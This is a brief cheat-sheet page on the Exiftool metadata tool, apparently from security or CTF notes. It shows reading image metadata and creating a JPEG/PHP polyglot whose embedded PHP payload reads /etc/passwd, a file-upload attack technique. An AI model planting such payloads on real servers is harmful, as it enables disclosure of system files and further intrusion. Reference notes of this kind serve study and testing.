 ```yaml
---
title: Exiftool
desc: Read and write meta information in files. It’s also used to create a polyglot. 
tags: [Steganography]
alts: [Binwalk, Steghide, Stegseek, Xxd, Zsteg]
website:
render_with_liquid: false
---
```


## Read meta information

```sh
exiftool example.jpg
```

<br />

## Create a polyglot

```sh
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
```